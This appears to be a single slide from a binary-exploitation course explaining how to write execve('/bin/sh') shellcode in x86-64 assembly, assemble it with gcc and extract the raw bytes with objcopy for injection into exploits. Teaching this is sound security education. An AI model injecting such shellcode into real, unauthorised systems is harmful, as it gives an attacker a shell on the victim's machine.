

# Building Shellcode
Write your shellcode as assembly:
.global _start
_start:
.intel_syntax noprefix
mov rax, 59		# this is the syscall number of execve
lea rdi, [rip+binsh]	# points the first argument of execve at the /bin/sh string below
mov rsi, 0		# this makes the second argument, argv, NULL
mov rdx, 0		# this makes the third argument, envp, NULL
syscall			# this triggers the system call
binsh:				# a label marking where the /bin/sh string is
.string "/bin/sh"
Then, assemble it!
gcc -nostdlib -static shellcode.s -o shellcode-elf
This is an ELF with your shellcode as its .text. You still need to extract it:
objcopy --dump-section .text=shellcode-raw shellcode-elf
The resulting shellcode-raw file contains the raw bytes of your shellcode.
This is what you would inject as part of your exploits.